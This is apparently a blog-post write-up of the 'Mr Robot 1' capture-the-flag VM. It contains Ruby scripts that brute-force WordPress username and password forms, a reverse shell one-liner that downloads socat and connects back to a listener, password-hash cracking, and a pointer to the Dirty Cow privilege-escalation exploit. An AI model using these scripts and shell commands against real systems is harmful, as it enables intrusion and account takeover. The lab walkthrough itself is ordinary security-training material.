 ```yaml
---
layout: post
tags: [programming, linux, cli, ctf, ruby]
excerpt_separator: "\n\n"
---
```


Simple writeup about the CTF `Mr Robot 1`. (Root-Me version)

> Based on the show, Mr. Robot.
> This VM has three keys hidden in different locations. Your goal is to find all three. Each key is progressively difficult to find.
> The VM isn't too difficult. There isn't any advanced exploitation or reverse engineering. The level is considered beginner-intermediate.

## First flag

- Go to `url`/robots.txt
    - fsocity.dic (wordlist for later)
    - key-1-of-3.txt (first flag)
- Go to `url`/key-1-of-3.txt

> Yeah! You got the first one. You're on the right way! Go on!

## Second flag

- Go to `url`/O to find the `wordpress` page
- Brute force the `lost your password` page using `fsocity.dic`

```ruby
#!/bin/ruby

require 'net/http'
require 'uri'

url = 'http://ctf-root-me.org/wp-login.php?action=lostpassword'
error = 'Invalid username or e-mail'

while (line = gets.chomp)
  puts "trying: #{line}"
  args = { user_login: line }
  doc = Net::HTTP.post(URI.parse(url), URI.encode_www_form(args)).body
  break unless doc =~ /#{error}/
end

puts "=> #{line}"
```

> Elliot

- Clear the wordlist

```bash
cat fsociety.dic | sort | uniq > wordlist.dic
```

- Brute force the `login` page

```ruby
#!/bin/ruby

require 'net/http'
require 'uri'

url = 'http://ctf-root-me.org/wp-login.php'
login = 'Elliot'
error = 'The password you entered for the username'

while (line = gets.chomp)
  puts "Trying: #{line}"
  args = { log: login, pwd: line, 'wp-submit': "Log+In", redirect_to: "https://ctf-root-me.org/wp-admin/" }
  doc = Net::HTTP.post(URI.parse(url), URI.encode_www_form(args)).body
  break unless doc =~ /#{error}/i
end

puts "=> #{login}:#{line}"
```

> ER28-0652 

- Install a `shell` extension to run commands (`WPTerm`)
- Run on the target (reverse shell using `socat`, might change the `ip`/`port`)

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:127.0.0.1:4444
```

- Run on your computer (might open a port here to catch the connection)

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
export TERM=xterm
```

- Go to `/home/robot`
- Find the md5 of robot's password

```bash
cat /home/robot/password.raw-md5

robot:c3fcd3d76192e4007dfb496cca67e13b
```

- Crack it using `rockyou` wordlist (personally used `hashcat`)

```
abcdefghijklmnopqrstuvwxyz
```

- Change to `robot` user

```bash
su robot
```

- Cat the `second flag`

```bash
cat key-2-of-3.txt 
```

> Congratz! You got the second key. Try to get the last one ;)

## Third flag

- Run `uname -a`
- Find out that the exploit `Dirty Cow` is possible
- Use the exploit from `https://www.exploit-db.com/exploits/40616`
- Be `root` 🔥
- Cat the `last flag`

```bash
cat /etc/passwd
```

> 86de7bd0d5a7413227ac73d58f7144b4

## Useful links

- [reverse shell](https://www.revshells.com/)
- [simple shell to interactive tty](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- [privilege escalation](https://github.com/RoqueNight/Linux-Privilege-Escalation-Basics)
